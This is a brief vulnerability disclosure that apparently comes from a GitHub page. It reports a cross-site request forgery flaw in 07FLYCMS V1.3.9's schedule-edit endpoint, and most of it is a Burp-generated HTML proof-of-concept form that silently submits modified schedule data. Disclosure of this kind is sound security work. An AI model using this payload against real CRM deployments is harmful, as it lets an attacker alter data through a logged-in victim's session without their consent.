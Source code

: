 
target:https://github.com/lingqifei/07fly-crm
version: V1.3.9

07FLYCMS V1.3.9 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component  http://erp.07fly.net:80/oa/OaSchedule/edit.html

POC:
```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://erp.07fly.net:80/oa/OaSchedule/edit.html" method="POST">
      <input type="hidden" name="id" value="62" />
<input type="hidden" name="name" value="cs" />
<input type="hidden" name="start_time" value="2024-10-17+21%3A01%3A36" />
<input type="hidden" name="end_time" value="2024-10-17+21%3A01%3A37" />
<input type="hidden" name="level" value="" />
<input type="hidden" name="content" value="cs%0D%0A%3Cdiv+id%3D%22translatorExtensionContainer%22+class%3D%22translatorExtension%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+class%3D%22translatorExtension%22+style%3D%22margin%3A0px+auto%3B%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+id%3D%22translatorExtensionContainer%22+class%3D%22translatorExtension%22%3E%0D%0A%3C%2Fdiv%3E%0D%0A%3Cdiv+class%3D%22translatorExtension%22+style%3D%22margin%3A0px+auto%3B%22%3E%0D%0A%3C%2Fdiv%3E" />
<input type="hidden" name="status" value="" />

      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

